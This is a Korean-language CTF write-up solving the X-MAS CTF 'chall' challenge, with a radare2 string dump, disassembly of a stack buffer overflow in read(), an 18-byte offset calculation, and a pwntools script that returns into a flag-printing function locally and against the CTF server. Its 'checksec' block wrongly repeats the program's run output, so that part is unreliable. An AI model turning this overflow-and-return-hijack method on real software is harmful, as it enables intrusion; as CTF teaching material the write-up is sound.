 풀문제는 chall 이라는 문제입니다

실행파일이 하나 주어지는데 이 실행파일을 실행시키면
<a href="https://drive.google.com/drive/folders/1wEr6WOyw9eP4oXkfhgaIMyXIQGriEoi7">실행파일 다운로드<.a<
```
root@kali:~/pwn/x# ./chall
Helloooooo, do you like to build snowmen?
test
Mhmmm... Boring...
```
입력칸이 열리고 입력을 하면 메세지를 출력합니다. 여기까지 보면 딱 버퍼 오버플로우라는게 감이 오죠.

제가 항상 분석 시작하기 전에 확인하는게 checksec 과 radare2 입니다

checksec 결과
```
root@kali:~/pwn/x# ./chall
Helloooooo, do you like to build snowmen?
test
Mhmmm... Boring...
```
radare2 결과
```
root@kali:~/pwn/x# radare2 chall
[0x00401070]> izz
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x00000034 0x00000034   4  10 () utf16le @8\v@
001 0x000002a8 0x004002a8  27  28 (.interp) ascii /lib64/ld-linux-x86-64.so.2
002 0x00000409 0x00400409   9  10 (.dynstr) ascii libc.so.6
003 0x00000413 0x00400413   4   5 (.dynstr) ascii puts
004 0x00000418 0x00400418   5   6 (.dynstr) ascii stdin
005 0x0000041e 0x0040041e   4   5 (.dynstr) ascii read
006 0x00000423 0x00400423   6   7 (.dynstr) ascii stdout
007 0x0000042a 0x0040042a   7   8 (.dynstr) ascii setvbuf
008 0x00000432 0x00400432   6   7 (.dynstr) ascii strcmp
009 0x00000439 0x00400439  17  18 (.dynstr) ascii __libc_start_main
010 0x0000044b 0x0040044b  11  12 (.dynstr) ascii GLIBC_2.2.5
011 0x00000457 0x00400457  14  15 (.dynstr) ascii __gmon_start__
012 0x000010b5 0x004010b5   5   6 (.text) ascii H=@@@
013 0x00001269 0x00401269  11  12 (.text) ascii \b[]A\A]A^A_
014 0x00002010 0x00402010  30  31 (.rodata) ascii X-MAS{REAL FLAG ON THE SERVER}
015 0x00002030 0x00402030  41  42 (.rodata) ascii Helloooooo, do you like to build snowmen?
016 0x0000205e 0x0040205e  24  25 (.rodata) ascii Me too! Let's build one!
```
radare2 밑에 결과가 더 있었는데 그냥 불필요한 결과들이여서 잘랐어요.
여기서 알 수 있는 정보들은 nx 가 있기때문에 스택에 자체에서는 코드가 실행이 안된다는거죠. 
그리고 radare2 에서 출력된 정보들을 보면 플래그가 포함되있다는 것과 read 가 있는것을 보면 
딱 여기서 read를 이용한 오버플로우로 저 플래그를 출력 가능하다는 것을 알 수 있죠.

저는 막상 바이너리 분석 할때는 binaryninja 라는 디스어셈블리어를 씁니다. 현재는 무료 데모 버젼 
사용중인데 곧있으면 구매할 계획입니다.

main 코드는 전부 넣지 않고 필요한 코드들만 넣을게요.

일단 취약점이 발생하는 구간은
```
lea     rax, [rbp-0xa {var_12}]
mov     edx, 0x64
mov     rsi, rax {var_12}
mov     edi, 0x0
mov     eax, 0x0
call    read
```
아까 예상 햇듯이 read 구간입니다. read 함수는 많이 분석해보면 알 수 있는게 
함수를 부르기 전에 edx 에 버퍼 크기를 넣고 rsi 에는 변수를 넣어줘요.
그럼 여기서 
>read(fd, var_12, 0x64)
대충 이런식으로 변수 호출이 되는 것을 알 수 있죠.
그리고 var_12 는 [rbp-0xa] 에 위치해있는것을 알 수 있고요.
오프셋을 구할려면 gef의 pattern create 과 pattern search 를 쓰면 되긴 하는데
이 바이너리가 크기가 작기도 하고 다른 변수는 선언 안했을 거 같으니 0xa(10h) + 8 = 18가 
오프셋인것을 유추 할 수 있습니다. 여기서 8을 더해준 이유는 64bit는 8이 ret 까지 닿는 거리기 때문이에요
32bit는 4 인걸로 알고 있습니다.
마지막으로 알아야할것은 아까 X-MAS{} 플래그가 위치해 있는 곳을 알아내면 되는데 binaryninja에서
함수들좀 둘러보다 보니 이런 함수가 있네요.
```
sub_401156:
push    rbp {__saved_rbp}
mov     rbp, rsp {__saved_rbp}
mov     edi, 0x402010  {"X-MAS{REAL FLAG ON THE SERVER}"}
call    puts
nop     
pop     rbp {__saved_rbp}
retn     {__return_addr}

```
아이고 웬 떡입니까. 이런 문제는 그냥 거져에요.

이제 공격코드를 생각해보면 
>"A"*18+p64(0x401156) 
대충 이런식으로 넣으면 플래그가 출력될껄 조심히 유추 할 수 있습니다.

파이썬 코드
```
from pwn import *

r = process("./chall")

payload = b"A"*18
payload += p64(0x401156)

print(r.recvline())
r.sendline(payload)
print(r.recvline())



r.interactive()

```

실행 결과
```
root@kali:~/pwn/x# python exploit.py 
[+] Starting program './chall': Done
[ERROR] Neither 'qemu-i386' nor 'qemu-i386-static' are available
b'Helloooooo, do you like to build snowmen?\n'
b'Mhmmm... Boring...\n'
[*] Switching to interactive mode
X-MAS{REAL FLAG ON THE SERVER}
[*] Got EOF while reading in interactive
$  
```
전 그냥 습관이 들어서 코드 마지막에
>r.interactive()
를 넣어준건데 굳이 넣지 않으셔도 실행 잘 됩니다.

그럼이제 서버에 연결 시키면

```
root@kali:~/pwn/x# python exploit.py 
[+] Opening connection to challs.xmas.htsp.ro on port 12006: Done
b'Helloooooo, do you like to build snowmen?\n'
b'Mhmmm... Boring...\n'
[*] Switching to interactive mode
X-MAS{700_much_5n0000w}
[*] Got EOF while reading in interactive
$  
```
사실 이런문제는 난이도가 극하여서 쓸 이유는 없지만 포너블 하지 않으시는 분들도 이정도 문제만 풀줄
아시면 괜찮을 거 같아서 한번 작성해봤습니다.





